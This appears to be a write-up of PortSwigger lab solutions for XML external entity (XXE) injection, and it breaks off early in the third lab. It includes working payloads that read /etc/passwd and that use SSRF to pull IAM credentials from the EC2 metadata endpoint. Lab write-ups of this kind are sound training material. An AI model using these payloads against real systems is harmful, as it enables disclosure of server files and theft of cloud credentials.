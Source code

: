 # XML External Entity (XXE) injection

## Lab 1: Exploiting XXE using external entities to retrieve files

This lab has a "Check stock" feature that parses XML input and returns any unexpected values in the response.

To solve the lab, inject an XML external entity to retrieve the contents of the /etc/passwd file

### Sol :

* Click `check stock` button and intercept the request.

![image](https://github.com/tousif13/Port_Swigger_Labs/assets/33444140/cb985550-dc41-473f-bd2f-39d16da37bc2)

* Give the below payload between the XML declaration and `stockcheck` element.

      <!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>

* Replace the `productID` with `&xxe;`

![image](https://github.com/tousif13/Port_Swigger_Labs/assets/33444140/5f826b3e-8fdc-4d27-8692-a3656cde0dba)

* Forward the request. We will get the `passwd` file
* Thus, the lab is solved.

## Lab 2: Exploiting XXE to perform SSRF attacks

This lab has a "Check stock" feature that parses XML input and returns any unexpected values in the response.

The lab server is running a (simulated) EC2 metadata endpoint at the default URL, which is http://169.254.169.254/. This endpoint can be used to retrieve data about the instance, some of which might be sensitive.

To solve the lab, exploit the XXE vulnerability to perform an SSRF attack that obtains the server's IAM secret access key from the EC2 metadata endpoint.

### Sol :

* Click `check stock` button and intercept the request.

![image](https://github.com/tousif13/Port_Swigger_Labs/assets/33444140/d3bb9191-7155-4b48-8e75-6714d1ea5ecd)

* Give the below payload between the XML declaration and `stockcheck` element.

      <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>

* Replace the `productID` with `&xxe;`

![image](https://github.com/tousif13/Port_Swigger_Labs/assets/33444140/cb1bcdbc-db7b-452b-beb8-3ae06eac84e8)

* Forward the request. We will obtain the server's IAM secret access key from the EC2 metadata endpoint.
* Thus, the lab is solved.

## Lab 3: Blind XXE with out-of-band interaction

This lab has a "Check stock" feature that parses XML input but does not display the result.

You can detect the blind XXE vulnerability by triggering out-of-band interactions with an external domain.

To solve the lab, use an external entity to make the XML parser issue a DNS lookup and HTTP request to Burp Collaborator

### Sol :

* Click `check stock` button and intercept the request.

![image](https://github.com/tousif13/Port_Swigger_Labs/assets/33444140/77c4c68d-69c0-4628-88f8-37d08cb2278c)

